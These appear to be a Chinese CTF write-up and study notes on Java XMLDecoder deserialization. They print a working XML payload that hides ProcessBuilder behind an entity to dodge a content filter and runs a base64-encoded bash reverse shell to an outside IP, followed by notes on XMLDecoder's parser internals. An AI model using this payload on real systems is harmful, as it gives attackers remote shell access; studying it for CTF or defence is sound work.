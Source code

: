 ![image-20220104161247206](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220104161247206.png)

```
System.getenv("CATALINA_HOME") + "/webapps/ROOT/db/db.xml"
```

现在就是复写这个文件，rce就可以了。

关于内容过滤，就是一个笑话了，xml和xss的bypass几乎可以说是一模一样了。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<java>
<object class="java.lang.&#80;rocessBuilder">
<array class="java.lang.String" length="3">
<void index="0">
<string>/bin/bash</string>
</void>
<void index="1">
<string>-c</string>
</void>
<void index="2">
<string>{echo,YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC84LjE0Mi45My4xMDMvODAgMD4mMSc=}|{base64,-d}|{bash,-i}</string>
</void>
</array>
<void method="start"/>
</object>
</java>
```

不懂为什么不用runtime。晚上可以跟一下那个链子。

从这个题目开始学一下xml反序列化。

配置环境等操作:https://xz.aliyun.com/t/8039

> https://paper.seebug.org/916/
>
> https://zhuanlan.zhihu.com/p/108754274

这里放几张`seebug`师傅的图,感觉这个总结可以说是十分到位了.

> 如有人问标签的内部属性在哪里赋值,其实是startElement的时候了.具体的类的继承关系,建议大家去上面连接中看.

借师傅的总结贴在下面

```
XMLDecoder过程中的几个关键函数
DocumentHandler的XML解析相关函数的详细内容可以参考Java Sax的ContentHandler的文档。
ElementHandler相关函数可以参考ElementHandler的文档。
DocumentHandler创建各个标签对应的ElementHandler并进行调用。
startElement
处理开始标签，包括属性的添加 DocumentHandler:。XML解析处理过程中参数包含命名空间URL、标签名、完整标签名、属性列表。根据完整标签名创建对应的ElementHandler并添加相关属性，继续调用其startElement。
ElementHandler: 除了array标签以外，都无操作。
endElement
结束标签处理函数 DocumentHandler: 调用对应ElementHandler的endElement函数，并将当前ElementHandler回溯到上一级的ElementHandler。

ElementHandler: 没看有重写的，都是调用抽象类ElementHandler的endElement函数，判断是否需要向parent写入参数和是否需要注册标签对象ID。

characters
DocumentHandler: 标签包裹的文本内容处理函数，比如处理<string>java.lang.ProcessBuilder</string>包裹的文本内容就会从这个函数走。函数中最终调用了对应ElementHandler的addCharacter函数。

addCharacter
ElementHandler: ElementHandler里的addCharacter只接受接种空白字符(空格\n\t\r)，其余的会抛异常，而StringElementHandler中则进行了重写，会记录完整的字符串值。

```